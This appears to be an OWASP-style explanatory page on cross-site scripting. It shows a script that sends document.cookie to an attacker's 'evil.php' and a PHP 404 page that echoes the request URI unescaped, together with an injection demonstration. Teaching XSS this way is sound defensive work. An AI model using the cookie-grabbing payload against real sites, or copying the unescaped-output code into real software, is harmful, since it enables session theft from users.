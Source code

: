 ### Attack Examples

**Example 1: Cookie Grabber**

If the application doesn’t validate the input data, the attacker can easily steal a cookie from an authenticated user. All the attacker has to do is to place the following code in any posted input(ie: message boards, private messages, user profiles):

```
<SCRIPT type="text/javascript">
var adr = '../evil.php?cakemonster=' + escape(document.cookie);
</SCRIPT>
```

The above code will pass an escaped content of the cookie (according to RFC content must be escaped before sending it via HTTP protocol with GET method) to the evil.php script in “cakemonster” variable. The attacker then checks the results of their evil.php script (a cookie grabber script will usually write the cookie to a file) and use it.

### Error Page Example

Let’s assume that we have an error page, which is handling requests for a non existing pages, a classic 404 error page. We may use the code below as an example to inform user about what specific page is missing:

```
<html>
<body>
<? php
print "Not found: " . urldecode($_SERVER["REQUEST_URI"]);
?>

</body>
</html>
```

Let’s see how it works: `http://testsite.test/file_which_not_exist` In response we get: `Not found: /file_which_not_exist`

Now we will try to force the error page to include our code: `http://testsite.test/<script>alert("TEST");</script>` The result is: `Not found: / (but with JavaScript code <script>alert("TEST");</script>)`

We have successfully injected the code, our XSS! What does it mean? For example, that we may use this flaw to try to steal a user’s session cookie.

## Related [Attacks](https://owasp.org/www-community/attacks/)

- [XSS Attacks](https://owasp.org/www-community/attacks/xss/)
- [Invoking untrusted mobile code](https://owasp.org/www-community/attacks/Mobile_code_invoking_untrusted_mobile_code)
- [Cross Site History Manipulation (XSHM)](https://owasp.org/www-community/attacks/Cross_Site_History_Manipulation_(XSHM))
